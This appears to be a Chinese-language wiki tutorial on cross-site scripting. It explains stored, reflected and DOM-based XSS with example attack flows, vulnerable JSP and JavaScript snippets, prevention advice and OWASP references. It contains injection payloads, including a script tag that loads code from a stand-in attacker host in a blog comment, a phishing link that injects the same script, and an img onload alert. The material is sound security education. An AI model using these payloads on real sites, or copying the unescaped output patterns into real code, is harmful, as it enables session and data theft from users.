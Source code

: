 跨站脚本攻击(XSS - Cross Site Scripting)
==原理==
Web程序将数据直接作为HTML显示（未进行HTML特殊字符转义、script脚本过滤），在浏览器端显示的这些内容的时候，激活其中包含的JavaScript恶意脚本，这些脚本可以用来获取用户敏感信息，追踪用户浏览历史、将用户诱导至其他网站等。

==分类==
===Stored XSS Attacks===
风险代码被先持久存储于服务器上（比如：数据库中），然后再读取出来显示到浏览器。比如在博客上发表文章、发表评论。

攻击流程示例：
<ol>
<li>恶意用户A发现某个博客系统B对博文的评论未做严格检查，而允许注入Javascript代码。</li>
<li>恶意用户A找到一个知名度高的一篇访问量大的博文，发表以下评论代码：
<source>
<script src="http://a.com/xss.js"></script>
楼主的帖子实在是写得太好了。文笔流畅,修辞得体,深得魏晋诸朝遗风,
更将唐风宋骨发扬得入木三分,能在有生之年看见楼主的这个帖子。
实在是我三生之幸啊。......
</source>
</li>
<li>博客系统B使用以下方式显示回帖（JSP语法）：
<source>
回帖人：<%=comment.userId %>，回帖内容是：<%= comment.content %>
</source>
</li>
<li>后果：每个读此博文并看到该评论的受害者都会加载并执行其中的恶意代码。</li>
</ol>

===Reflected XSS Attacks===
风险代码并没有被持久存储，而是在服务器端转了一圈之后就直接显示在生成的动态HTML中。
这种攻击方式常被以HTML邮件的方式发送给潜在受害者。

攻击流程示例：
<ol>
<li>恶意用户A搜索、验证并确信某系统B在访问 <code>http://b.com/welcome.do?user=zhang3</code> 时，是以以下方式显示URL中的用户名的（JSP语法）：
<source>
 welcome <%=param["user"] %>!
</source>
</li>
<li>恶意用户A就利用此漏洞，以系统B的名义向多个用户发送包含以下连接的HTML邮件，并诱导用户点击该链接：
<source>
{系统B}温馨提醒您：XXX 想加您好友，请点击
<a href="http://b.com/welcome.do?user=zhang3<script src='http://a.com/xss.js'></script>">此处</a>
进行处理！
</source>
</li>
<li>后果：受害者在阅读该邮件并点击此链接后，在浏览系统B的欢迎画面时，就会加载并执行来自于 a.com 的恶意脚本</li>
</ol>


===DOM Based XSS===
这种方式与 Reflected XSS Attacks 比较相似，但区别在于：在Reflected XSS Attacks 中，恶意代码时有缺陷的系统在返回给浏览器端之间就加入到生成的HTML中了（比如通过JSP、PHP等）；而在 DOM Based XSS 中，恶意代码是在浏览器端通过有缺陷的JavaScript代码在动态修改DOM树时加入的。

也即，在 Reflected XSS Attacks 的攻击流程示例的第二步中的代码替换为以下方式：
<source>
 welcome <script>
document.write(document.location.href.substring(document.location.href.indexOf("user=")+5));
</script>!
</source>

与前两种的区别是：前两种最终会将风险代码写在生成HTML中，而这一种是服务器端返回的HTML本身并不包含风险代码，但是其中的JavaScript脚本在动态修改DOM时，未对输出值做充分的安全检查。


注入点
1. 客户端：来自用户输入，却未作安全检查。

<source>
<img src="https://www.owasp.org/skins/monobook/ologo.png" onload="alert('XSS');" >
</source>
2.
2. 服务器端：来自配置文件，却未作安全检查（比如消息模板，头部文件）

DOM Based XSS
  你的程序本身存在一些依赖于来自于客户端的数据并展示，但是对来源数据为做安全检查。



==防范XSS==
在Web应用中，XSS缺陷很难确认和移除，一些漏洞扫描工具也只能对浅层的扫描。最好的方式就是针对安全展开代码Review，并对所有来自HTTP请求的数据进行检查，如果请求中的数据有可能最终作为HTML显示，就需要做相应的处理。

==检查列表==
这里仅仅给出了部分摘要，更详尽列表请参看[https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet 这里]：


==工具==
* [http://www.cirt.net/nikto2 Nikto2] - 开源的Web服务器扫描工具
* [http://www.tenable.com/products/nessus nessus] - 漏洞扫描工具
* [http://wpl.codeplex.com/ Microsoft Web Protection Library] - .Net 平台下的安全工具
* [http://msdn.microsoft.com/en-us/library/ms972969.aspx#securitybarriers_topic6 ValidateRequest] - .Net 平台内建功能，可以提供部分安全保护措施
* [https://www.owasp.org/index.php/ESAPI OWASP ESAPI] - OWASP Enterprise Security API

参考：
* [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) Cross site Scripting ]
* [https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet XSS Filter Evasion Cheat Sheet]

Cross-Site Request Forgery (CSRF)